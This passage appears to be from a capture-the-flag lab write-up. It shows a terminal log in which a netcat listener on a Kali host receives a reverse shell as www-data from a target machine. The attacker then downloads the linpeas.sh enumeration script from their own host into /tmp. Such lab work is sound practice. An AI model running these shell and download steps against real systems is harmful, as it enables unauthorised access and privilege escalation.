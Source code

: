 ![Alt](../../Images/downloadingdatafromkali.png)


```┌──(root㉿kali)-[~]
└─# nc -nvlp 1234                                                  
listening on [any] 1234 ...
connect to [192.168.64.4] from (UNKNOWN) [192.168.64.3] 43132
Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux
 00:56:22 up 45 min,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty1     -                23:40    1:15m  0.22s  0.11s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ sudo i
/bin/sh: 2: sudo: not found
$ locate sudo
/bin/sh: 3: locate: not found
$ 
$ 
$ cd /tmp       
$ pwd
/tmp
$ wget http://192.168.64.4/linpeas.sh
--2024-07-06 01:13:44--  http://192.168.64.4/linpeas.sh
Connecting to 192.168.64.4:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 157746 (154K) [text/x-sh]
Saving to: 'linpeas.sh'

     0K .......... .......... .......... .......... .......... 32% 22.5M 0s
    50K .......... .......... .......... .......... .......... 64% 57.7M 0s
   100K .......... .......... .......... .......... .......... 97% 15.4M 0s
   150K ....                                                  100% 15.5M=0.006s

```